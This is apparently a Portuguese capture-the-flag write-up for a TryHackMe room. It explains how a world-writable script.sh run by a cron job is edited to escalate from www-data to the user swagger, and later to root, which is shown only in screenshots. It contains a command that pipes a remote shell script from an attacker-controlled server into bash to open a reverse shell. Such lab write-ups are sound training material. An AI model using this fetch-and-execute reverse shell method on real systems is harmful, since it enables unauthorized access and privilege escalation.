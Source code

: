 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---
---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário 'swagger'

### Situação:
- Existe um arquivo chamado `script.sh` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-swagger user-swagger 184 Jun 1 2023 script.sh
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário 'swagger'**, que tem mais privilégios que o usuário atual (`www-data`).

### Problema:
- Estamos logados como `www-data`, um usuário limitado.
- Executar o script manualmente com `www-data` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `www-data`.
![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei previlegio do meu propio usuario e consegui, mas nao sai do propio wwwdata

### Solução:
1. Editar o `script.sh` e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   curl http://192.168.100.168:8000/shell_2.sh | bash
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `swagger`, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do 'swagger' executa o script que você editou**.


---

### Agora vamos alterar o conteudo do arquivo e colocar para ele buscar naquele mesmo servidor python baixar e execuar o shel reverse enquanto escutamos do outro lado 
![image](https://github.com/user-attachments/assets/35d15a91-bf21-42f9-b622-afb6d0e2707c)
- Arquivo alterado com a shell ,agora abrimos outro terminal e escutamos na porta 4444 enquanto esperamos a atualização do comando que nos alteramos para enviar o cmd shell
![image](https://github.com/user-attachments/assets/c1d126d2-8923-42f5-823d-1ac0c41a0378)


- Temos duas shels ativas agora uma do wwwdata que era fraca e nao possuia mt previlegios , e a do swagger que vamos explorar ainda.
![image](https://github.com/user-attachments/assets/26fbd6bc-317c-48f5-9612-7495663d43b5)



# depois de explorar como swagger....

![image](https://github.com/user-attachments/assets/f645cf56-c6ce-40f9-98a1-5fec134f9d25)

conteudo do .backup 
```txt
#!/bin/bash
##### Script em desenvolviment visualisar containers ######
###########################################################
######## verificando containers em execucao ###############
docker ps
a=$(docker ps | cut -d " " -f1 | grep -v "CONTAINER")

######################## Docker Inspect ###################
docker inspect $a
```

# escalando para root
![image](https://github.com/user-attachments/assets/bf139977-d1f1-4cc6-8afa-4439c19f50b9)

# bash -li (upgrade de shell)
![image](https://github.com/user-attachments/assets/56ab04c4-f382-4e91-a7e8-df4e53c5df1e)
agora é só ser feliz.

docker ps / docker inpect

![image](https://github.com/user-attachments/assets/79e11a7e-da0d-4f7b-83c3-8256d4c53299)

---
flag root 
---
![image](https://github.com/user-attachments/assets/e0610da5-e09a-459a-92a7-4b3ffba6163f)
---
![image](https://github.com/user-attachments/assets/edc189b9-5a6e-4a90-9abb-9e85ef9e8758)
---
![image](https://github.com/user-attachments/assets/9b1aa064-ce27-47f1-a1f4-7ce54265b4da)

